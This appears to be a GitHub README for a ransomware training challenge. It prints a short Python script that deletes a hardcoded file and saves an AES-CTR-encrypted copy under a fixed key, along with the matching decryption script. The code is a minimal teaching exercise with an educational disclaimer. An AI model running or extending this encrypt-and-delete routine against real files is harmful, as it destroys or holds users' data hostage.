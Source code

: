 DIO Platform Ransomware Challenge Repository



This repository is dedicated to the DIO Platform Ransomware Challenge, showcasing a basic implementation of ransomware encryption and decryption using Python.

Description
  The challenge presents a simple ransomware script written in Python utilizing the pyaes library for encryption and decryption tasks. It encrypts a specified file with a hardcoded key and saves the encrypted data   in a new file with a '.ransomwaretroll' extension. The decryption script reverses this process, decrypting the encrypted file and restoring it to its original state.

Usage
Encryption
To encrypt a file, execute the encrypt.py script with the following command:

bash
Copy code
python encrypt.py
Replace "teste.txt" with the name of the file you wish to encrypt.

Decryption
To decrypt a file encrypted by the ransomware, execute the decrypt.py script with the following command:

bash
Copy code
python decrypt.py
Replace "teste.txt.ransomwaretroll" with the name of the encrypted file you want to decrypt.

Code
Encryption Script (encrypt.py)
python
Copy code
import os
import pyaes

# Open the file to be encrypted
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Remove the original file
os.remove(file_name)

# Encryption key
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Encrypt the file
crypto_data = aes.encrypt(file_data)

# Save the encrypted file
  new_file = file_name + ".ransomwaretroll"
  new_file = open(f'{new_file}','wb')
  new_file.write(crypto_data)
  new_file.close()
  Decryption Script (decrypt.py)
  python
  Copy code
  import os
  import pyaes

  file_name = "teste.txt.ransomwaretroll"
  file = open(file_name, "rb")
  file_data = file.read()
  file.close()
  
  # Remove the encrypted file
  os.remove(file_name)
  
  # Decryption key
  key = b"testeransomwares"
  aes = pyaes.AESModeOfOperationCTR(key)
  decrypted_data = aes.decrypt(file_data)
  
  # Save the decrypted file
  new_file = "teste.txt"
  new_file = open(f'{new_file}', "wb")
  new_file.write(decrypted_data)
  new_file.close()
Disclaimer
  This code is intended for educational purposes only. Engaging in ransomware activities is illegal and unethical. Please use this knowledge responsibly and refrain from any malicious activities.
